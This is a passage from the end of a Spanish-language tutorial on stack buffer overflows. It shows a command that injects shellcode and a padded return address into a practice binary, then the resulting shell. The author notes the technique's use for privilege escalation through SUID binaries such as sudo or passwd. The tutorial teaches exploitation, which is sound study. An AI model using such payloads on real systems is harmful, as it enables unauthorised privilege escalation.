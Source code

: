 En fin

$ /home/arget/vuln \`cat sc.o\`\`perl -e 'print "A"x(140-23) . "x10xd2xffxff"'\`
1�Ph//shh/bin��PS���
                    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ���
sh-4.4$ whoami
arget
sh-4.4$

Una buena pregunta es qué utilidad tiene conseguir que un programa que ya controlas haga lo que no está pensado que haga. La verdad que no tiene mucha, solo para practicar para llevarlo a un entorno donde sí tenga sentido, como un binario con el bit SUID, de esta forma se obtendría elevación de privilegios. Muchos métodos de elevación de privilegios emplean vulnerabilidades en binarios como sudo o passwd.

Ya es hora de irse despidiendo, en la próxima ocasión veremos la explotación con alguna que otra protección. Desde luego algo mucho más interesante.